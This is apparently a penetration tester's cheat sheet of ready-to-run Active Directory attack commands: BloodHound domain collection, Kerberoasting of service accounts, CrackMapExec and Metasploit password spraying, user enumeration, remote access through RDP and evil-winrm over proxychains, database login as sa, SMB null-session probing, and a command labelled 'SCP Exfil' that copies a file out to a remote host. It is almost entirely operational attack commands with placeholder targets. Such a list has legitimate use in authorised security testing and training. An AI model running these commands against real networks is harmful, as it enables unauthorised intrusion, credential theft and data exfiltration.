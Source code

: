Bloodhound From Kali
---------------------------------------------------------------
`bloodhound-python -u adusername -d domain.corp -v -c dconly -ns x.x.x.x`  
`bloodhound-python -u adusername -d domain.corp -v -c all -ns x.x.x.x`

Kerberoast SPNS
---------------------------------------------------------------
`python3 GetUserSPNS.py -request domain.corp/adusername -dc-ip x.x.x.x`

CrackMapExec
---------------------------------------------------------------
Check for smb access  
`cme smb -u username -p Welcome1 --shares final.txt --continue-on-success`

Password spray against user list  
`cme smb -u usernamesonly.txt -p Welcome1 -d domain.corp  x.x.x.x(target) --continue-on-success`

Grab user list  
`python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all domain.corp/aduser -dc-ip x.x.x.x`

Metasploit Password Spray SMB
---------------------------------------------------------------
`use auxiliary/scanner/smb/smb_login` 

RDP (simple) 
---------------------------------------------------------------
`proxychains-ng xfreerdp /v:x.x.x.x /u:username /d:domain.corp /p:Welcome1`

RDP (Clipboard, mounted tsclient) 
---------------------------------------------------------------
`proxychains-ng xfreerdp +clipboard /v:x.x.x.x /u:username /d:domain.local /drive:tsclient,/path/to/mounted/folder/` 

Evil-winrm
---------------------------------------------------------------
`proxychains-ng evil-winrm -i x.x.x.x -u username -p 'Welcome1'`

SCP Exfil
---------------------------------------------------------------
`scp SuperSecretDummyExfil.xlsx username@x.x.x.x:/home/pentesting`

Database CommandLine Access SQSH
---------------------------------------------------------------
`proxychains-ng sqsh -S x.x.x.x -U sa -P Welcome1`

Access SMB Share
---------------------------------------------------------------
Check for null session  
`echo exit | smbclient -L \\\\$line`

Connect and explore through smbclient  
`smbclient //x.x.x.x/share`  

Mount open share locally  
`sudo mount //x.x.x.x/share /mnt/share`

